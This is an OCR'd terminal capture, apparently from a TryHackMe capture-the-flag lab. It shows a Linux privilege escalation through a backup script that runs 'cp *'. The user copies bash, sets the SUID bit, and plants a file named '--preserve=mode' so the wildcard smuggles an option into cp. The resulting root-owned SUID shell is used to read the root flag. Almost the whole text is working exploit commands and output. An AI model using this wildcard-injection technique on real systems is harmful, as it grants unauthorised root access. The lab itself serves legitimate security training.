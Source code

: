 

gordon@ip-10-201-41-12:/usr/bin$ cat backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/








gordon@ip-10-201-41-12:~/reports$ cp /bin/bash .
gordon@ip-10-201-41-12:~/reports$ ls
bash  report1  report2  report3
gordon@ip-10-201-41-12:~/reports$ chmod +s bash
gordon@ip-10-201-41-12:~/reports$ ls -la
total 1176
drwxrwx--- 2 gordon gordon    4096 Sep 12 05:47 .
drwxr-xr-x 4 gordon gordon    4096 Aug  2  2022 ..
-rwsr-sr-x 1 gordon gordon 1183448 Sep 12 05:47 bash
-rw-r--r-- 1    640 gordon      57 Feb 19  2023 report1
-rw-r--r-- 1    640 gordon      72 Feb 19  2023 report2
-rw-r--r-- 1    640 gordon     100 Feb 19  2023 report3
gordon@ip-10-201-41-12:~/reports$ 




gordon@ip-10-201-41-12:~/reports$ touch ./--preserve=mode
gordon@ip-10-201-41-12:~/reports$ ls
 bash  '--preserve=mode'   report1   report2   report3
gordon@ip-10-201-41-12:~/reports$ ls -lah
total 1.2M
drwxrwx--- 2 gordon gordon 4.0K Sep 12 05:49  .
drwxr-xr-x 4 gordon gordon 4.0K Aug  2  2022  ..
-rwsr-sr-x 1 gordon gordon 1.2M Sep 12 05:47  bash
-rw-rw-r-- 1 gordon gordon    0 Sep 12 05:49 '--preserve=mode'
-rw-r--r-- 1    640 gordon   57 Feb 19  2023  report1
-rw-r--r-- 1    640 gordon   72 Feb 19  2023  report2
-rw-r--r-- 1    640 gordon  100 Feb 19  2023  report3
gordon@ip-10-201-41-12:~/reports$ ./bash -p
gordon@ip-10-201-41-12:~/reports$ cd ..
gordon@ip-10-201-41-12:~$ cd backups
gordon@ip-10-201-41-12:~/backups$ ls
bash  report1  report2  report3
gordon@ip-10-201-41-12:~/backups$ ./bash -p
bash-5.0# id
uid=1001(gordon) gid=1001(gordon) euid=0(root) egid=0(root) groups=0(root),1001(gordon)
bash-5.0# pwd
/home/gordon/backups
bash-5.0# cd /root
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt
THM{J0k3r$_Ar3_W1ld}
bash-5.0# 
